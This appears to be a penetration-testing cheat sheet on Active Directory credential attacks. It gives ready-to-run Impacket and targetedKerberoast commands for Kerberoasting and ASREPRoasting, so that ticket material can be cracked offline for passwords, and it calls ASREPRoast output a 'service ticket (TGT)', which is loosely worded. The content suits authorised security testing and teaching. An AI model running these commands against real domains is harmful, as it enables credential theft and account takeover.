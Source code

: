 <div style="margin-top: 70px;"></div>

# 🎯 Active Directory Specific Attacks

----

## Kerberoasting Attack

Attack to request and crack Kerberos service tickets to obtain service account passwords.

- First sync time:

```
sudo ntpdate VICTIM_IP
```

Or use faketime

```
faketime 'YYYY-MM-DD HH:MM:SS' ...
```

- Request service tickets with Impacket:

```
impacket-GetUserSPNs DOMAIN/USER:PASSWD -request
```

```
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request -dc-ip DC_IP
```

Alternative tool: [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

```
git clone https://github.com/ShutdownRepo/targetedKerberoast
cd targetedKerberoast
```

```
./targetedKerberoast.py -d DOMAIN -u USER -p PASSWORD
```

## ASREPRoast Attack (Impacket)

The ASREPRoast attack targets user accounts in Active Directory that do not require pre-authentication. This allows an attacker to request a service ticket (TGT) for those users without providing a password, and then attempt to crack the resulting encrypted ticket offline to recover the user’s password.

```
impacket-GetNPUsers DOMAIN/ -no-pass -usersfile users.txt -dc-ip DC_IP
```

You can also run it without specifying the domain controller IP:

```
impacket-GetNPUsers DOMAIN/ -no-pass -usersfile users.txt
```
